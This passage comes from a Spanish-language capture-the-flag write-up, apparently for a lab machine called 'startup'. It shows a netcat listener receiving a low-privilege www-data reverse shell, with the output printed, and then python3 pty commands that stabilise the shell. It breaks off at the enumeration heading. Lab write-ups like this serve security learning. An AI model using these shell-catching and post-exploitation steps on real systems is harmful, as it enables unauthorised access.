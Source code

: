     La captura de pantalla confirma que la subida fue exitosa, ya que el archivo es visible en la ruta web:

<img width="1669" height="387" alt="ejecuto el reverse y obtengo el shell" src="https://github.com/user-attachments/assets/a3131c57-4ccb-419a-9c77-e1fd048baa34" />

### 5.3 Shell Obtenida

Al acceder al archivo, el *listener* de Netcat capturó la conexión, otorgando una *shell* de baja privilegios.

```text
listening on [any] 443 ...
connect to [10.8.24.253] from (UNKNOWN) [10.10.200.64] 60200
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
id=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
````
Credenciales Iniciales:

Usuario: www-data

Privilegios: Baja (servidor web)

## Paso 6: Estabilización de la Shell y Enumeración Inicial

La *shell* de Netcat obtenida en el paso anterior era básica e inestable (sin funciones de historial o tabulación). El primer paso dentro del sistema es convertirla en una *shell* TTY totalmente funcional.

### 6.1 Estabilización de la Shell

Se ejecutaron los siguientes comandos para estabilizar la *shell* usando Python 3 y configurar la variable `TERM`.

1.  **Spawn de una TTY (Python):** Se usó Python 3 para crear un *shell* de `bash`.
    ```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    ```

2.  **Configurar la Variable TERM:** Esto permite que programas como `vi`/`nano` o `less` funcionen correctamente y habilita las funciones de terminal.
    ```bash
    export TERM=xterm
    ```

El resultado es una *shell* interactiva bajo el usuario `www-data` con un *prompt* más útil (`www-data@startup:/$`).

<img width="881" height="433" alt="estabilizamos el shell y ya tenemos el usuario" src="https://github.com/user-attachments/assets/2496ebb3-d698-448f-bdb0-646df9e0e697" />

### 6.2 Enumeración del Directorio Raíz
